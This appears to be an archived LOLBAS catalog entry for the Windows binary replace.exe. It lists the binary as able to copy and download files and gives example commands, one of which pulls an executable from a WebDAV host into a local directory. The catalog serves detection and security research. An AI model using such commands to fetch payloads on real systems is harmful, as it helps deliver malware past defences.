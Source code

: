 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Replace.exe

* Functions: Copy, Download

```
replace c:\source\file.cab c:\destination /A
     
replace \\webdav.host.com\foo\bar.exe c:\outdir /A

```

Acknowledgements:
* elceef - @elceef

Code sample:
* 

Resources:
* https://twitter.com/elceef/status/986334113941655553
* https://twitter.com/elceef/status/986842299861782529

Full path:
```
c:\windows\system32\replace.exe
c:\windows\sysWOW64\replace.exe
```

Notes:



 

